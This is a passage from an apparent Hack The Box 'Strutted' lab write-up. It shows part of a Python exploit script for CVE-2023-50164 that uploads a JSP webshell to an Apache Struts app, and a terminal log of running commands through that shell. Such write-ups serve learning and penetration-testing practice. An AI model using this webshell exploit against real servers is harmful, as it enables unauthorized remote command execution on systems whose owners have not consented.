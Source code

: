 ```
            sys.exit()
        except:
            print('[-] Something unexpected happened. Exiting...')
            sys.exit()


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Exploit script for CVE-2023-50164 by uploading a webshell to a vulnerable Struts app's server.")
    parser.add_argument("--url", required=True, help="Full URL of the upload endpoint.")
    args = parser.parse_args()

    if not args.url.startswith("http"):
        print("[-] ERROR: Invalid URL. Please provide a valid URL starting with 'http' or 'https'.")
        exit()

    print("[+] Starting exploitation...")
    upload_file(args.url)

    webshell_url = f"{get_base_url(args.url)}/{NAME_OF_WEBSHELL}/{NAME_OF_WEBSHELL}.jsp"
    print(f"[+] Reach the JSP webshell at {webshell_url}?cmd=<COMMAND>")

    print(f"[+] Attempting a connection with webshell.")
    start_interactive_shell(webshell_url)

```

Then you can run the exploit script
```
┌──(wither㉿localhost)-[~/…/htb-labs/Strutted/CVE-2023-50164-Apache-Struts-RCE/exploit]
└─$ python3 exploit.py --url http://strutted.htb/upload.action
[+] Starting exploitation...
[+] WAR file already exists.
[+] webshell.war uploaded successfully.
[+] Reach the JSP webshell at http://strutted.htb/webshell/webshell.jsp?cmd=<COMMAND>
[+] Attempting a connection with webshell.
[+] Successfully connected to the web shell.
CMD > id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
CMD > whoami
tomcat
CMD > 

```

# Description

For the foothold, there is no way to directly use the exploit script to get the hot verse shell, and there are also rabbit holes for upload and upload, which is somewhat confusing.

